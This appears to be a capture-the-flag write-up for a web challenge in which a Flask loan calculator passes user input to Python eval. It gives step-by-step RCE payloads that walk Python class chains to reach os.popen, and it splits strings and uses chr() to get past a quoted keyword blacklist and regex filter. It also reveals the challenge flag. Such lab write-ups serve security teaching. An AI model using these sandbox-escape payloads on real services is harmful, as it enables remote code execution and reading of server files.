 **Challenge:** 3v@l

**Level:** Medium

**Challenge Author:** Theoneste Byagutangaza

### Description: 
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?


### Step-by-Step Walkthrough:
Upon opening the webpage, you are greeted by a website with a `Bank-Loan Calculator` and some interactive buttons

1. Analyze the Filters and Blacklists
2. Explored Python Object Chains
3. Enumerated Subclasses
4. Bypassed Blacklists with Dynamic String Construction
5. Executed Commands

## Investigation - web page
All good web page vulnerability inspections will generally comprise of two things:

1. Using the Web Page Inspector
2. Testing all the interactive elements

Let's open up an inspector panel and look at the source element. We see a hint there in some comments:

```
TODO
------------
Secure python_flask eval execution by 
    1. blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
    2. Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
```

We learn some things:

```
1. The calculator is being run as a python_flask
2. They want to block all the malicious keywords
* os
* eval
* exec
* bind
* connect
* python
* socket
* ls
* cat
* shell
3. The regex also blocks certain blocks, including
* Hex (0x...)
* Unicode (\u....)
* Percent-encoding (%..)
* Dots followed by 1-3 alphanumerics (.[A-Za-z0-9]{1,3})
* Slashes and backslashes (/, \)
* Double dots (..)
```

It's good to test things, just in case. I tested all of the keywords above just on their own and it seems they did block those. However, as we've learned in other challenges, blacklisting is a bad idea as there's always another way to represent things and you might miss something, providing false confidence in your security.

##### Note - Simple Solution
After solving it, I watched some walkthroughs and I definitely made it a lot more complicated! This can be solved pretty directly with the following code. I even had the thought to initially try other functions not blacklisted, but never pursued it. However, the method I used to solve it helped me learn a lot about python classes, which may be useful for later challenges
<details><summary>HINT</summary>
    <pre>
    open(chr(47)+'flag.'+'txt').read()
    </pre>
   </details>

## Investigation - Testing Injections
Reviewing this [site](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) we can run through some test injections and we quickly see this is not the way to go. 

## Learning - Python Classes
__class__ is a special attribute in Python that refers to the class of an object. It allows you to access the type (class) of any instance.

Example:
```
x = 5
print(x.__class__)  # Output: <class 'int'>
```

Furthermore, `().__class__` in Python returns the class of an empty tuple object, which is `<class 'tuple'>`. We could use any object here, but we'll use a tuple to access its base classes and their subclasses.

## Investigation - Subclasses

Our first goal will be to get a list of all subclasses. Index into this list to find classes which can import `os` via `__init__.__globals__`, then use commands such as `cat` and `ls` in string form.

Since `os` is blacklisted, but `bracket notation` is not, our goal is to use the following:

`().__class__.__bases__[0].__subclasses__()[<index>].__init__.__globals__`

where `<index>` is the index of our class that has the method `__globals__`

* `__class__`: a special attribute in Python that refers to the class (type) of an object. It allows you to access the object's type and its class-level attributes and methods.
* `__bases__`: All new-style classes in Python (which is everything in Python 3) have an attribute that lists their base classes.
* `__subclasses__`: A special method in Python that, when called on a class, returns a list of all classes that directly inherit from it.
* `__init__`: A special method in Python classes, known as the constructor. It is automatically called when a new instance of the class is created, and is used to initialize the object’s attributes.
* `__globals__`:  A special attribute of Python function objects. It is a dictionary containing the global variables that were accessible in the module where the function was defined.

To find our index, let's list all the classes and subclasses with the following:

`().__class__.__bases__[0].__subclasses__()`

This returns a "blank" list, which seems to be sanitized output for security reasons. We know the subclasses exist though! So we still learned something.

We can try to print all the class names into a list:

`[c.__name__ for c in ().__class__.__bases__[0].__subclasses__()]`

But we want the index as well, so let's add that in:

`[(i, c.__name__) for i, c in enumerate((()).__class__.__bases__[0].__subclasses__())]`

## Investigation - Globals
There! Now that we know we can iterate, let's find a class that includes `__globals__`

`[i for i, c in enumerate((()).__class__.__bases__[0].__subclasses__()) if hasattr(c.__init__, '__globals__')]`

But now we get an error, `ls` is blocked! We aren't using `ls`, so the system must be checking that `ls` exists as any sequence of characters. Here we see that `globals` is the issue. We'll need an alternative method to represent that. Since `globals` is a string, lets just split it:

`[i for i, c in enumerate((()).__class__.__bases__[0].__subclasses__()) if hasattr(c.__init__, '__global'+'s__')]`

and we get a big long list of valid indexes! For simplicity, we'll just use index `80`.

##### Note
not all indexes are equal here, some will be simpler to implement than others. 80 turned out to be fairly straightforward

## Investigation - Import
Inputting `80` into our index:

`().__class__.__bases__[0].__subclasses__()[80].__init__.__globals__`

But this throws an error for `globals` again, let's use `getattribute()` instead. `__getattribute__` is a special method in Python that is called whenever an attribute of an object is accessed. It allows you to customize or control how attribute access works for instances of a class.

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')`

now we need the to import `os`, but we currently have a dictionary object. Let's use the `import` function

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')['__import__']('o'+'s').popen('l'+'s').read()`

Score! We can use our commands again. Let's check out what we have. Remember that `..` is a blacklisted sequence, so we need to split them up when we use them.

Thus we can see that the flag is located one directory above! Now let's use `cat`, split of course. Again, recall that there is regex checking for any sequence with a `.` and `1-3 characters` following. Split up your command appropriately:

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')['__import__']('o'+'s').popen('ca'+'t '+'/flag'+'.'+'txt').read()`

Ah, of course, the '/' is also blacklisted. This is where we'd want to use `chr`.

## Learning - chr
`chr` is a built-in Python function that returns the character corresponding to a given Unicode (ASCII) integer value.

Example:
```
chr(65)   # Returns 'A'
chr(97)   # Returns 'a'
chr(47)   # Returns '/'
```
Replace `/` with chr(47) as follows:

`().__class__.__bases__[0].__subclasses__()[80].__init__.__getattribute__('__global'+'s__')['__import__']('o'+'s').popen('ca'+'t '+chr(47)+'flag'+'.'+'txt').read()`

and we have our flag!

<details><summary>Flag</summary>
    <pre>
    picoCTF{D0nt_Use_Unsecure_f@nctions6798a2d8}
    </pre>
   </details>